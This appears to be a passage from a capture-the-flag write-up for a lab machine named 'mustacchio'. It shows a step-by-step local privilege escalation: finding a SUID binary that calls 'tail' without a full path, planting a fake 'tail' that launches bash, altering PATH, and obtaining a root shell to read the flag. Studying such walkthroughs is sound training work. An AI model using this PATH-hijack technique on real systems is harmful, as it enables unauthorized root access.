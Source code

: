 As always, on a linux machine, I run the command `sudo -l` to find commands which we can execute as other users but a password is requested :
```
barry@mustacchio:~$ sudo -l
sudo: unable to resolve host mustacchio: Connection refused
[sudo] password for barry: 
```

I run the command `find / -perm -4000 -type f` to find all files with the `SUID bit` set and I discover an interesting file called `live_log` which is in the `/home/` directory of user `joe`.  
Using the strings command, I could see that the file was using the `tail` command to read the last 10 entries in the /var/log/nginx/access.log file: :

```
barry@mustacchio:/home/joe$ strings live_log 
[...]
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
[...]
```

With the `SUID bit` is set for the file and the `tail` commane is using without specifying the full path. I can exploit this by creating a new binary and editing the `$PATH environment variable` to run a `root shell`.  

So I create a file in the `/tmp` directory called `tail`, that when executed would run a shell. I then edited the $PATH variable to point to where I create my file. And then, I execute the `live_log` file again, which run a root shell :
 
```  
barry@mustacchio:/home/joe$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
barry@mustacchio:/home/joe$ cd /tmp
barry@mustacchio:/tmp$ echo "/bin/bash" > tail
barry@mustacchio:/tmp$ chmod 777 tail
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ cd /home/joe/
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe# whoami
root
``` 

I can now retrieve the root flag :
```
root@mustacchio:/home/joe# cd /root/
root@mustacchio:/root# ls
root.txt
root@mustacchio:/root# cat root.txt 
****************************
```

